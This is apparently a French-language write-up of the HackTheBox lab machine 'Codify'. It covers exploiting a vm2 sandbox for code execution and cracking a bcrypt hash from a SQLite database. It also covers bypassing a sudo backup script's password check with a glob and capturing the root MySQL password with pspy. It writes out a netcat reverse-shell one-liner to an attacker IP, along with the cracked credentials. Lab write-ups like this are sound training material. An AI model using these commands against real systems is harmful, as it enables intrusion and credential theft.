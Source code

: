 ```yaml
---
title: Codify - HacktheBox
date: 2024-04-15 02:01:30 +0000
description: Codify est une machine Linux simple qui comporte une application web permettant aux utilisateurs de tester du code Node.js. L'application utilise une bibliothèque `vm2` vulnérable, qui est utilisée pour exécuter du code à distance. L'énumération de la cible révèle une base de données SQLite contenant un hachage qui, une fois craqué, donne un accès SSH à la Box. Enfin, un script Bash vulnérable peut être exécuté avec des privilèges élevés pour révéler le mot de passe de l'utilisateur root, conduisant à un accès privilégié à la machine.

categories: [HacktheBox]
tags: [HTB, vm2, sudo]
image:
    path: https://i.ibb.co/kDd16rd/Copie-de-Manager.png
---
```



- **[The Best Academy to Learn Hacking](https://affiliate.hackthebox.com/nenandjabhata)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


## Reconnaissance

Pour commencer je fais un petit scan sur la Box avec `nmap`
```sh
└─# nmap -sV -Pn -p- --min-rate 3000 $ip
Host is up (0.76s latency).
Not shown: 65470 closed tcp ports (reset), 62 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Je trouve un site dans le port 80 avec comme domain `codify.htb` donc je vais l'ajouter dans le `/etc/hosts`
```sh
─# echo "$ip  $host" | tee -a /etc/hosts                                  
10.10.11.239  codify.htb
```

Dans le site je trouve qu'on me dit que : *La plateforme Codify permet aux utilisateurs d'écrire et d'exécuter du code Node.js en ligne, mais certaines limitations sont en place pour garantir la sécurité de la plateforme et de ses utilisateurs.*
Ensuite dans le `about` je trouve une ligne interessante qui index le libray `Vm2`
![About](https://i.ibb.co/qWLWFjX/vm2.png)

En cliquant sur le Lien je trouve le github et aussi dans `Security` je trouve `7` vulnerabilites critique, a l'aide duquel j'utilise cet [issue](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac) pour avoir un RCE.

![RCE](https://i.ibb.co/9brxYL8/vm2.png)

En l'exploitant et en faisant un `id` je trouve `uid=1001(svc) gid=1001(svc) groups=1001(svc)`

Maintenant je vais creer un reverse shell

```sh
execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.5 1337 >/tmp/f").toString();

$sudo rlwrap nc -lnvp 1337                      
listening on [any] 1337 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.239] 37202
bash: cannot set terminal process group (1266): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ 

```

### Mouvement Lateral
Dans le `/home` je trouve un autre utilisateur `joshua`. Donc je vais recolter des informations sur cet utilisateur.

```sh
svc@codify:/home$ ls
joshua svc

ls -la *
contact:
total 120
drwxr-xr-x 3 svc  svc   4096 Sep 12  2023 .
drwxr-xr-x 5 root root  4096 Sep 12  2023 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12  2023 tickets.db

```

Pour cela je me suis rendu dans le `/var/www` puis dans le `/contact` du serveur je trouve un `tickets.db`

```sh
sqlite3 tickets.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .table.tables
.tables
tickets  users  
sqlite> SELECTSELECT * FROM users;
SELECT * FROM users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite>
```

Je trouve donc un hash de l'utilisateur en question, alors je vais utiliser `hashcat` pour la cracker

```sh
# hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt -o passwd.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz, 2868/5800 MB (1024 MB allocatable), 8MCU
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2
Time.Started.....: Mon Apr 15 02:26:15 2024 (42 secs)
Time.Estimated...: Mon Apr 15 02:26:57 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       34 H/s (7.18ms) @ Accel:8 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1408/14344387 (0.01%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 1344/14344387 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
Candidate.Engine.: Device Generator
Candidates.#1....: rayray -> ranger
Hardware.Mon.#1..: Temp: 59c Util: 93%

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Maintenant je vais me connecter au ssh avec ce creds

## Privilege Escalation

Je trouve un script bash que je peux lancer avec `root`.
```sh
joshua@codify:~$ cat user.txt 
9612c3391fcd75f14ea72c6f06e57e3a
joshua@codify:~$ 
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Bon, je vais d'abord lire le code et voir ce que ce script fait.

```sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

En lancant ce script avec l'utilisateur `root`, Le script nous demande un mot de passe qui est comparé à celui contenu dans `/root/.creds`. S'il correspond, il utilise le mot de passe pour se connecter à mysql et exécuter quelques commandes.

Comme c'est un script `bash` on peux essayer de bypasser la demande du mot de passe avec le caractere `*` pour selectionner tout et voir

```sh
joshua@codify:~$ sudo -u root /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Ici on voit bien que tout est bon et c'est deja executer mais le probleme est qu'on voit les taches effectuer derriere ou les mot de passe qui sont entrer. Alors on va utiliser l'outil `pspy` pour voir ce qui se passe derriere.


>>pspy est un outil en ligne de commande conçu pour espionner les processus sans avoir besoin des autorisations `root`. Il vous permet de voir les commandes exécutées par d'autres utilisateurs, les tâches cron, etc. au fur et à mesure qu'elles s'exécutent. Il est idéal pour énumérer les systèmes Linux dans les CTF. Il est également idéal pour montrer à vos collègues pourquoi passer des secrets comme arguments sur la ligne de commande est une mauvaise idée. 
>{: .prompt-info }

```sh
joshua@codify:/tmp/priv$ ./pspy64 -f
2024/04/15 02:42:20 CMD: UID=0    PID=2625   | /bin/bash /opt/scripts/mysql-backup.sh                                                                     
2024/04/15 02:42:20 CMD: UID=0    PID=2624   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys  

```

Dans les taches executer je vois un mot de passe utiliser pour se connecter a la base de donnees `mySQL` sur le port `3306`. Alors je vais essayer cela pour acceder a l'utilisateur `root`

![Pwned](https://i.ibb.co/stLG714/pwned.png)

## Ressources supplementaires
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [ Vm2 Issue](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac)
- [Pspy](https://github.com/DominicBreuker/pspy)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
